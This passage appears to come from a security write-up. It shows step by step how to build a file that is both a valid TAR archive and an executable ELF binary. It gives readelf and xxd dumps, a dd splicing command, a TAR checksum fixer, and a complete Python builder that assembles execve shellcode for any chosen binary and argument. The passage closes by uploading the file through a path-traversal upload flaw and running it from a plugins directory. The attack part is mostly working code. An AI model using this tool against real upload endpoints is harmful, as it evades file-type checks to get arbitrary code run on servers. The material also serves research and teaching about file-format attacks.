  Size of this header:               64 (bytes)
  Size of program headers:           56 (bytes)
  Number of program headers:         3
  Size of section headers:           64 (bytes)
  Number of section headers:         7
  Section header string table index: 6

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .note.gnu.pr[...] NOTE             00000000004000e8  000000e8
       0000000000000030  0000000000000000   A       0     0     8
  [ 2] .custom           PROGBITS         0000000000400118  00000118
       0000000000002800  0000000000000000  WA       0     0     1
  [ 3] .text             PROGBITS         0000000000402918  00002918
       000000000000003b  0000000000000000  AX       0     0     1
  [ 4] .symtab           SYMTAB           0000000000000000  00002958
       00000000000000f0  0000000000000018           5     6     8
  [ 5] .strtab           STRTAB           0000000000000000  00002a48
       0000000000000037  0000000000000000           0     0     1
  [ 6] .shstrtab         STRTAB           0000000000000000  00002a7f
       000000000000003c  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  D (mbind), l (large), p (processor specific)

There are no section groups in this file.

Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  LOAD           0x0000000000000000 0x0000000000400000 0x0000000000400000
                 0x0000000000002953 0x0000000000002953  RWE    0x1000
  NOTE           0x00000000000000e8 0x00000000004000e8 0x00000000004000e8
                 0x0000000000000030 0x0000000000000030  R      0x8
  GNU_PROPERTY   0x00000000000000e8 0x00000000004000e8 0x00000000004000e8
                 0x0000000000000030 0x0000000000000030  R      0x8

 Section to Segment mapping:
  Segment Sections...
   00     .note.gnu.property .custom .text 
   01     .note.gnu.property 
   02     .note.gnu.property 

There is no dynamic section in this file.

There are no relocations in this file.
No processor specific unwind information to decode

Symbol table '.symtab' contains 10 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
     0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND 
     1: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS exploit.o
     2: 0000000000402934     0 NOTYPE  LOCAL  DEFAULT    3 cmd
     3: 000000000040293b     0 NOTYPE  LOCAL  DEFAULT    3 argv
     4: 0000000000402937     0 NOTYPE  LOCAL  DEFAULT    3 arg1
     5: 0000000000400118     0 NOTYPE  LOCAL  DEFAULT    2 array
     6: 0000000000402918     0 NOTYPE  GLOBAL DEFAULT    3 _start
     7: 0000000000403953     0 NOTYPE  GLOBAL DEFAULT    3 __bss_start
     8: 0000000000403953     0 NOTYPE  GLOBAL DEFAULT    3 _edata
     9: 0000000000403958     0 NOTYPE  GLOBAL DEFAULT    3 _end

No version information found in this file.

Displaying notes found in: .note.gnu.property
  Owner                Data size        Description
  GNU                  0x00000020       NT_GNU_PROPERTY_TYPE_0
      Properties: x86 feature used: x86
        x86 ISA used: x86-64-baseline
```

Now, the CUSTOM segment is correctly positioned as the first segment, and the binary functions as expected.

```bash
$ xxd exploit | head -15
00000000: 7f45 4c46 0201 0100 0000 0000 0000 0000  .ELF............
00000010: 0200 3e00 0100 0000 1829 4000 0000 0000  ..>......)@.....
00000020: 4000 0000 0000 0000 c02a 0000 0000 0000  @........*......
00000030: 0000 0000 4000 3800 0300 4000 0700 0600  ....@.8...@.....
00000040: 0100 0000 0700 0000 0000 0000 0000 0000  ................
00000050: 0000 4000 0000 0000 0000 4000 0000 0000  ..@.......@.....
00000060: 5329 0000 0000 0000 5329 0000 0000 0000  S)......S)......
00000070: 0010 0000 0000 0000 0400 0000 0400 0000  ................
00000080: e800 0000 0000 0000 e800 4000 0000 0000  ..........@.....
00000090: e800 4000 0000 0000 3000 0000 0000 0000  ..@.....0.......
000000a0: 3000 0000 0000 0000 0800 0000 0000 0000  0...............
000000b0: 53e5 7464 0400 0000 e800 0000 0000 0000  S.td............
000000c0: e800 4000 0000 0000 e800 4000 0000 0000  ..@.......@.....
000000d0: 3000 0000 0000 0000 3000 0000 0000 0000  0.......0.......
000000e0: 0800 0000 0000 0000 0400 0000 2000 0000  ............ ...
000000f0: 0500 0000 474e 5500 0100 01c0 0400 0000  ....GNU.........
00000100: 0100 0000 0000 0000 0200 01c0 0400 0000  ................
00000110: 0100 0000 0000 0000 6666 6666 6666 6666  ........ffffffff
00000120: 6666 6666 6666 6666 6666 6666 6666 6666  ffffffffffffffff
00000130: 6666 6666 6666 6666 6666 6666 6666 6666  ffffffffffffffff
```

It looks good. Now, let's perform some surgery. We'll create a Frankenstein file by combining the ELF header, part of the TAR header, and the TAR data (which will overwrite the CUSTOM segment), followed by the rest of the ELF file. To ensure the ELF structure remains correct (with the header and tables before the CUSTOM segment), we will need to sacrifice certain fields of the TAR header.

```c
char name[100];  
char mode[8];  
char uid[8];  
char gid[8];   
```

We use the `dd` command to overwrite the ELF file with the TAR file (from offset 120 to EOF):

```bash
$ cp exploit frankie.tar
$ dd if=/tmp/file.tar of=frankie.tar skip=120 seek=120 bs=1 count=10240 conv=notrunc
10120+0 records in
10120+0 records out
10120 bytes (10 kB, 9.9 KiB) copied, 0.0209625 s, 483 kB/s
```

If we execute it:

```bash
$ ./exploit
test
```

The TAR header contains the checksum of the header block (the first 512 bytes), and if the checksum is incorrect, an error occurs. Additionally, in this case, the file is identified as an ELF executable! After reviewing the GNU manual, the GNU tar command code (which is quite complex), and the Plan 9 tar command code (much cleaner), I discovered that:

 - The checksum is the sum of all the bytes in the header block.
 - The chksum field must be set to blanks (spaces) when calculating the checksum.
 - The chksum field is textual.
 - The number is in octal format.

```py
import sys, struct

OVERFLOW_OFFSET = 24
BLOCKSZ = 512
CHKSTART = 148
CHKSZ = 8

POSIX_HEADER_FORMAT = (
	"100s"
	"8s"
	"8s"
	"8s"
	"12s"
	"12s"
	"8s"
	"c"
	"100s"
	"6s"
	"2s"
	"32s"
	"32s"
	"8s"
	"8s"
	"155s"
	"12x"
)

def calculate_checksum(header_bytes):
	checksum = 0
	for i in range(BLOCKSZ):
		if CHKSTART <= i < CHKSTART + CHKSZ:
			checksum += ord(" ")
		else:
			checksum += header_bytes[i]
	return checksum

with open("exploit.tar", "r+b") as f:
    header_bytes = f.read(BLOCKSZ)
    if len(header_bytes) != BLOCKSZ:
            sys.exit("Error: Could not read tar header.")
    
    header = struct.unpack(POSIX_HEADER_FORMAT, header_bytes)
    original_checksum = header[6].decode("ascii", errors="ignore").strip()
    print(f"Old checksum: {original_checksum}")
    
    new_checksum = calculate_checksum(header_bytes)
    
    formatted_checksum = f"{new_checksum:06o}\0 "
    
    header_list = list(header)
    header_list[6] = formatted_checksum.encode("ascii")
    updated_header_bytes = struct.pack(POSIX_HEADER_FORMAT, *header_list)
    
    f.seek(0)
    f.write(updated_header_bytes)
```

This small Python program is used to calculate and update the checksum of the TAR file.

```py
import os, requests, random, uuid, time, shutil, struct, sys

OVERFLOW_OFFSET = 24
BLOCKSZ = 512
CHKSTART = 148
CHKSZ = 8

POSIX_HEADER_FORMAT = (
	"100s"
	"8s"
	"8s"
	"8s"
	"12s"
	"12s"
	"8s"
	"c"
	"100s"
	"6s"
	"2s"
	"32s"
	"32s"
	"8s"
	"8s"
	"155s"
	"12x"
)

SHELLCODE_ASM = """
.global _start
.text
_start:
	mov   $59, %al
	lea   cmd(%rip), %rdi
	lea   argv(%rip), %rsi
	xor   %rdx, %rdx
	syscall
	
	mov   $60, %al
	xor   %rdi, %rdi
	syscall

cmd:
	.ascii "BIN\\0"

arg1:
	.ascii "ARG\\0"

argv:
	.quad cmd
	.quad arg1
	.quad 0

.section .custom , "aw" , @progbits
	array: .fill 10240 , 1 , 0x66
"""

LINKER_SCRIPT = """
/* Script for -z combreloc: combine and sort reloc sections */
/* Copyright (C) 2014-2018 Free Software Foundation, Inc.
	 Copying and distribution of this script, with or without modification,
	 are permitted in any medium without royalty provided the copyright
	 notice and this notice are preserved.  */
OUTPUT_FORMAT("elf64-x86-64", "elf64-x86-64",
				"elf64-x86-64")

    [... redacted for brevity]

	/DISCARD/ : { *(.note.GNU-stack) *(.gnu_debuglink) *(.gnu.lto_*) }
}
"""

def calculate_checksum(header_bytes):
	checksum = 0
	for i in range(BLOCKSZ):
		if CHKSTART <= i < CHKSTART + CHKSZ:
			checksum += ord(" ")
		else:
			checksum += header_bytes[i]
	return checksum

def format_shell(bin, arg):
	shellcode = SHELLCODE_ASM.replace("BIN", bin).replace("ARG", arg)
	return shellcode

def link_and_build(bin, arg):
	tmp_dir = "directory"
	tmp_asm_name = "tmp.s"
	tmp_obj_name = "tmp.o"
	linker_script = "ld.script"
	tar_file = "old.tar"
	new_tar = "new.tar"
	final_exe = "payload"
	
	with open(tmp_asm_name, "w") as f:
		shellcode = format_shell(bin, arg)
		f.write(shellcode)

	with open(linker_script, "w") as f:
		f.write(LINKER_SCRIPT)

	os.system(f"as {tmp_asm_name} -o {tmp_obj_name}")
	os.system(f"ld {tmp_obj_name} -T {linker_script} -o {final_exe}")

	os.makedirs(tmp_dir, exist_ok=True)
	os.system(f"echo hacked > {tmp_dir}/test.txt")
	os.system(f"mv {tmp_dir} $'\\x7FELF'")
	os.system(f"tar cvf {tar_file} $'\\x7FELF'")
	os.system(f"cp {final_exe} {new_tar}")
	os.system(f"dd if={tar_file} of={new_tar} skip=120 seek=120 bs=1 count=10240 conv=notrunc")

	with open(new_tar, "r+b") as f:
		header_bytes = f.read(BLOCKSZ)
		if len(header_bytes) != BLOCKSZ:
				sys.exit("Error: Could not read tar header.")
		
		header = struct.unpack(POSIX_HEADER_FORMAT, header_bytes)
		original_checksum = header[6].decode("ascii", errors="ignore").strip()
		print(f"Old checksum: {original_checksum}")
		
		new_checksum = calculate_checksum(header_bytes)
		
		formatted_checksum = f"{new_checksum:06o}\0 "
		
		header_list = list(header)
		header_list[6] = formatted_checksum.encode("ascii")
		updated_header_bytes = struct.pack(POSIX_HEADER_FORMAT, *header_list)
		
		f.seek(0)
		f.write(updated_header_bytes)

	os.remove(tmp_asm_name)
	os.remove(tmp_obj_name)
	os.remove(linker_script)
	os.remove(tar_file)
	os.remove(final_exe)
	os.system("rm -rf *ELF")
	return new_tar

polyglot = link_and_build("/bin/echo", "test")
```

This will create a file that is both a valid TAR with the right headers/metadata and checksum but is also a valid ELF again with the proper sections and executable code.

```bash
$ readelf -h new.tar
ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF64
  Data:                              2\'s complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Advanced Micro Devices X86-64
  Version:                           0x1
  Entry point address:               0x402918
  Start of program headers:          64 (bytes into file)
  Start of section headers:          10944 (bytes into file)
  Flags:                             0x0
  Size of this header:               64 (bytes)
  Size of program headers:           56 (bytes)
  Number of program headers:         3
  Size of section headers:           64 (bytes)
  Number of section headers:         7
  Section header string table index: 6
```

```bash
$ exiftool new.tar  
ExifTool Version Number         : 12.97
File Name                       : new.tar
Directory                       : .
File Size                       : 11 kB
File Modification Date/Time     : 2024:12:10 01:38:31+02:00
File Access Date/Time           : 2024:12:10 01:38:59+02:00
File Inode Change Date/Time     : 2024:12:10 01:38:31+02:00
File Permissions                : -rwxr-xr-x
File Type                       : TAR
File Type Extension             : tar
MIME Type                       : application/x-tar
Warning                         : Unsupported file type
```

```bash
$./new.tar 
test
```

So now we are able to upload this file through the path traversal unrestricted upload and execute it through the `plugins` directory. Technique inspired from [here](https://sysfatal.github.io/polyglottar-en.html).
